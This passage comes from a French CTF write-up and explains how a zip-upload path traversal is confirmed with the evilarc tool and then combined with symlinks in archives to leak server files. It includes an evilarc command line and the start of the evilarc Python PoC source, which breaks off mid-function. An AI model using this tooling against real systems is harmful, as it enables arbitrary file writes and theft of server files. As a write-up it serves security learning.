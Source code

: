 Il y a donc un dossier static ! Si l'on utilise cette [librairie](https://github.com/ptoomey3/evilarc) python (qui permet d'exploiter la vulnérabilité de path traversal), et qu'on tente d'écrire un fichier "test" dans static (on nomme notre fichier injecté en .css pour éviter le téléchargement de celui-ci) :

`python2 evilarc_orig.py test.css -d 2 -p static -o unix`

![pathtraversal](images/3.png)

On confirme donc l'exploitation de cette vulnérabilité, mais celle-ci ne sert pas à grand chose pour l'instant, étant donné le peu de droits de l'utilisateur.

Dans les fichiers zip, il y a une autre vulnérabilité, celle des liens symboliques, en effet, si on créé un zip qui contient un lien symbolique et qu'on spécifie "--symlinks", la valeur de ce lien sera conservée. 

Le but de cette partie du challenge est donc de lier les deux vulnérabilités, à la fois pour aller écrire dans un dossier accessible depuis l'application web, ainsi que de créer un lien symbolique vers des fichiers intéressants du serveur permettant de nous leak d'autres informations. Pour cela, il faut modifier le poc initial "evilarc.py" comme ceci :

```python
import sys, zipfile, tarfile, os, optparse


def main(argv=sys.argv):
	p = optparse.OptionParser(description = 'Create archive containing a file with directory traversal', 
								prog = 'evilarc',
								version = '0.1',
								usage = '%prog <input file>')
	p.add_option('--output-file', '-f', dest="out", help="File to output archive to.  Archive type is based off of file extension.  Supported extensions are zip, jar, tar, tar.bz2, tar.gz, and tgz.  Defaults to evil.zip.")
	p.set_default("out", "evil.zip")
	p.add_option('--depth', '-d', type="int", dest="depth", help="Number directories to traverse. Defaults to 8.")
	p.set_default("depth", 8)
	p.add_option('--os', '-o', dest="platform", help="OS platform for archive (win|unix). Defaults to win.")
	p.set_default("platform", "win")
	p.add_option('--path', '-p', dest="path", help="Path to include in filename after traversal.  Ex: WINDOWS\\System32\\")	
	p.set_default("path", "")
	options, arguments = p.parse_args()
	
	if len(arguments) != 1:
		p.error("Incorrect arguments")
		
	fname = arguments[0]
	if not os.path.exists(fname):
		sys.exit("Invalid input file")
		
	if options.platform == "win":
		dir = "..\\"
		if options.path and options.path[-1] != '\\':
			options.path += '\\'
	else:
		dir = "../"
```